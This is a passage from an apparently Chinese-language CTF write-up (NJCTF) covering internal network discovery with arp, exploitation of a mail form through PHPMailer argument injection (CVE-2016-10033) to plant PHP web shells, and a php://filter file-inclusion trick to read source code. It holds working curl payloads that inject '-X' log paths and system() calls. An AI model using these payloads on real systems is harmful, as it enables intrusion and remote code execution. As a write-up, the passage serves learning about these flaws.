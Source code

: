 ![shell1](https://mo-xiaoxi.github.io/img/post/NJCTF/shell1.png)

 翻一下，还是没有找到flag。自然接下来就应该是内网渗透了。

这里有一个小技巧，使用arp -nv可以快速探测内网(当然你也可以使用curl来获得远程的一个py扫描脚本，然后扫描)

```
arp -nv
arp -nv
Address                  HWtype  HWaddress           Flags Mask            Iface
172.17.42.1              ether   72:1d:76:57:41:32   C                     eth0
172.26.0.20              ether   72:1d:76:57:41:32   C                     eth0
172.17.0.1               ether   02:42:ac:11:00:01   C                     eth0
172.17.0.19              ether   02:42:ac:11:00:13   C                     eth0
Entries: 4	Skipped: 0	Found: 4
```

都测试一下。

可以看到在172.17.0.19存活一个Mail SYSTEM

![mailsystem](https://mo-xiaoxi.github.io/img/post/NJCTF/mailsystem.png)

搜一波，学习一下

[https://blog.chaitin.cn/phpmailer-cve-2016-10033/](https://www.waitalone.cn/imagemagick-poc.html)

这里的根目录没办法写，存在uploads目录，但是uploads目录下一句话没办法执行(貌似是因为;的原因，可以传入`<?php system($_GET[test]);?>` 这种格式去绕过），所以可以直接用system

```Sh
curl http://172.17.0.19 -d "subject=<?php system('ls ./');?>&email=aaa( -X /var/www/html/uploads/xiaoxi1.php )@qq.com&message=<?php echo moxiaoxi;?>&submit=Send email"
curl http://172.17.0.19/uploads/xiaoxi1.php
curl http://172.17.0.19 -d "subject=<?php system('ls ../');?>&email=aaa( -X /var/www/html/uploads/xiaoxi2.php )@qq.com&message=<?php echo moxiaoxi;?>&submit=Send email"
curl http://172.17.0.19/uploads/xiaoxi2.php
curl http://172.17.0.19 -d "subject=<?php system('cat ../flaaaaaaag.php');?>&email=aaa( -X /var/www/html/uploads/xiaoxi3.php )@qq.com&message=<?php echo moxiaoxi;?>&submit=Send email"
curl http://172.17.0.19/uploads/xiaoxi3.php
```

得到flag

![belogical](https://mo-xiaoxi.github.io/img/post/NJCTF/belogical.png)

### Guess

这种url很容易就能想到可能是文件包含或者伪协议读取

http://218.2.197.235:23735/index.php?page=php://filter/read=convert.base64-encode/resource=upload

读源码

```php

<?php
error_reporting(0);
function show_error_message($message)
{
    die("<div class=\"msg error\" id=\"message\">
    <i class=\"fa fa-exclamation-triangle\"></i>$message</div>");
}

function show_message($message)
{
    echo("<div class=\"msg success\" id=\"message\">
    <i class=\"fa fa-exclamation-triangle\"></i>$message</div>");
}

```